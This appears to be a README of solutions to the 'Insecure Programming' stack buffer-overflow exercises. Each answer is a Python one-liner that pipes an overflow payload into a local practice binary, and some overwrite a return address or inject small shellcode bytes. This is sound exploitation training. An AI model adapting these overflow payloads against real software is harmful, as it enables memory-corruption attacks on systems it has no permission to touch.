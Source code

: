 This document is intended to contain all my solutions to the [Insecure Programming](https://github.com/deadbits/InsecureProgramming) excercises. I will update this document as I advance in the excercises.

####Stack excercises

1. `$ python -c "print 'A'*80 + chr(0x44) + chr(0x43) + chr(0x42) + chr(0x41)" | ./stack1`
2. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x3) + chr(0x2) + chr(0x1)" | ./stack2`
3. `$ python -c "print 'A'*80 + chr(0x5) + chr(0x0) + chr(0x2) + chr(0x1)" | ./stack3`
4. This excercise it's a bit different, since one of the values being compared to `cookie` it's a newline (0xa). Because of this you can't, or at least I wasn't able to get the corresponding memory positions to be equal to the constant. Then, the idea is to directly overwrite the return address so it points where you need it. In order to do so, you need to overwrite more memory positions so you can reach the ones where the function's return address it's stored.
  
  `$ python -c "print 'A'*96 + chr(0xb9) + chr(0x84) + chr(0x04) + chr(0x08)" | ./stack4"`
  
  Note: This solution was tested in Linux. This may not work for you (the distance between the buffer and the location of the return addres may vary. 
5. `$ python -c "print 'you win\x00' + '\x90\xcc' + '\x68\xf4\xfe\x18\x00' + '\xff\x15\x8c\x20\x40\x00' + 'A' * 67 + chr(0xfc) + chr(0xfe) + chr(0x18) + chr(0x0)" | stack2.exe`
  
  Note: The same as ex 4 but for Windows.
